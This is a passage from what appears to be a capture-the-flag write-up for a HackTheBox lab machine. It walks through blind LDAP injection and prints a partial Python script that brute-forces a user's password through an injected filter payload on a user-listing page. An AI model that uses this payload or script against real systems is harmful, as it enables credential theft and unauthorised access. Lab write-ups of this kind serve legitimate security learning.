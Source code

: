 As we can see, because we got a response back with the First Name field containing `technician` when we passed the 9 instead of 7, we conclude that the number 9 is the first character of the `technician` user!

Alright, let's automate the character testing process using a Python script. However, there's a catch: the asterisk character `*` holds a special meaning in LDAP queries, representing a wildcard. This presents a challenge if the character is part of the password, as our query may not interpret it correctly. For instance, if the password is `abc\*123\*!@#`, our script can correctly guess up to abc, but it will struggle to identify the * due to its special significance in LDAP. To address this, the script operates in rounds. It tests characters sequentially until it exhausts its list. If it can't progress further, the script attempts a login, assuming the next character might be an asterisk. If the login fails, it confirms the presence of a * and proceeds to the next round. This process repeats until the script successfully deduces the entire password. The script is available [here](https://github.com/alexbsec/analysis-htb/blob/master/ldapinject.py).

```python
import requests
import urllib.parse
import string
import time

def try_login(url, email, password):
    data = {
        'username':email,
        'password':urllib.parse.unquote_plus(password),
        'login':'Login'
    }

    res = requests.post(url, data=data)
    if "Wrong Data" in res.text:
        return False

    return True

def test_payload(url, char, found_chars):
    modified_url = url.replace("{FUZZ}", urllib.parse.quote_plus(char)).replace("{found_char}", found_chars)
    print(f"Testing {char} for URL: {modified_url}")
    try:
        res = requests.get(modified_url)
        if res.status_code == 200 and "technician" in res.text:
            return True
    except requests.RequestException as e:
        print(f"Request failed: {e}")
    return False

def do_loop(url, wl, found_chars):
    for char in wl:
        char = char.strip()
        if test_payload(url, char, found_chars):
            print(f"Found char: {char}. Resetting iteration")
            found_chars += char
            return do_loop(url, wl, found_chars)
    return found_chars

def main():
    url = "http://internal.analysis.htb/Users/list.php"
    login_url = "http://internal.analysis.htb/employees/login.php"
    email = "technician@analysis.htb"
    password = ""
    max_rounds = int(input("How many rounds? "))

    wl = string.ascii_lowercase + string.ascii_uppercase + string.digits + "!@#$%^&*()_+=-"
    param = "?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
    base_url = url + param
```